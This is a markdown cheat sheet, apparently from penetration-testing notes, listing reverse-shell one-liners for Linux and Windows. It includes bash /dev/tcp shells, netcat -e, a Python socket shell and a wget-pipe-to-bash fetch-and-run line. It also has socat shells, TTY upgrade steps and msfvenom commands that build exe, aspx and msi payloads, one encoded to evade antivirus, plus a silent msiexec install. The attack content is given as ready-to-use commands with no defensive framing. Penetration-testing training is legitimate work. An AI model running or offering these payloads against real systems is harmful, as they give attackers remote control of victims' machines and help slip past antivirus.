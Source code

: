 	- `rlwrap nc -nvlp`
		- Support left and right
- https://reverse-shell.sh/
- [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- Bash tcp
    - `bash -c 'bash -i >& /dev/tcp/my_ip/7877 0>&1'`
    	- Write file in local first, and use wget/curl to get to victim machine
    	- `/usr/bin/wget -O - {ip:port}/{file} | /bin/bash`
    - `bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}%2F{PORT}%200%3E%261%27`
- Nc
    - `nc {IP} {Port} -e /bin/bash`
- Python
    - `python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP}",{PORT}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")' &`
- Make it more interactively
    - `python -c 'import pty; pty.spawn("/bin/bash")'`
    - `perl -e 'exec "/bin/bash";'`
- Full shell (Can use vim)
    - `bash` (Zsh doesn't support)
    - `nc -nlvp 443` (Open Port to listening, and wait shell to conect)
    - `python -c 'import pty; pty.spawn("/bin/bash")'` (Spawn shell)
    - Ctrl + Z
    - `stty raw -echo`
    - `fg` (Will not show)
    - `reset`
    - Enter , Enter
    - Ctrl + C
    - `export SHELL=bash`
    - `export TERM=xterm-256color`
    - `stty rows 38 columns 116`
- js Shell Code
    - `
    msfvenom -p linux/x86/shell_reverse_tcp LHOST={IP} LPORT={Port} CMD=/bin/bash -f js_le -e generic/none`
- [socat](https://github.com/ernw/static-toolbox/releases/download/socat-v1.7.4.1/socat-1.7.4.1-x86)
    - Server : ```socat file:`tty`,raw,echo=0 tcp-listen:{PORT}```
    - Client : `./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:{IP}:{PORT}`
### Reverse Shell - Windows
- msfvenom
	- https://infinitelogins.com/2020/01/25/sfvenom-reverse-shell-payload-cheatsheet/
	    - stage : `shell/reverse_tcp`
	        - msf `multi/handler` to receive
	    - stageless : `shell_reverse_tcp`
	        - `nc` to receive
	- aspx
		- `msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT={PORT}  -f aspx > shell.aspx`
		- `msfvenom -p windows/shell/reverse_tcp LHOST={IP} LPORT={PORT}  -f aspx > shell.aspx`
	- exe
		- `msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT={PORT} -f exe > shell-x86.exe`
		- `msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT={PORT} -e x86/shikata_ga_nai -f exe > shell.exe`
			- Anti-Anti-virus
        - `msfvenom -p windows/x64/shell_reverse_tcp LHOST={IP} LPORT={PORT}  -f exe -o shellx64.exe`
            - Most of time, x64 system can also run x86 shell
    - msi
        - `msfvenom -p windows/x64/shell_reverse_tcp LHOST={IP} LPORT={Port} -f msi -o shellx64.msi`
            - Install by `msiexec /quiet /i shellx64.msi`
